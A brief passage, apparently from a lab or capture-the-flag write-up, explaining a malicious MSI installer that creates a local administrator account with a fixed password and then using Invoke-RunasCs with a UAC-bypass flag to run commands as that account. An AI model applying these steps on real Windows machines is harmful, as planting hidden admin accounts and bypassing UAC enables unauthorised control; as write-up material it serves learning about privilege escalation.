 ### MSI File Purpose

1. Creating the user "amit" with the password "Password123!" 
2. Adding the user to the local administrators group. 

Then we can use `Invoke-RunasCs` to get code execution as the newly created amit user:
- `Invoke-RunasCs amit 'Password123!' 'whoami /priv' -ForceProfile -CreateProcessFunction 2 -BypassUac`
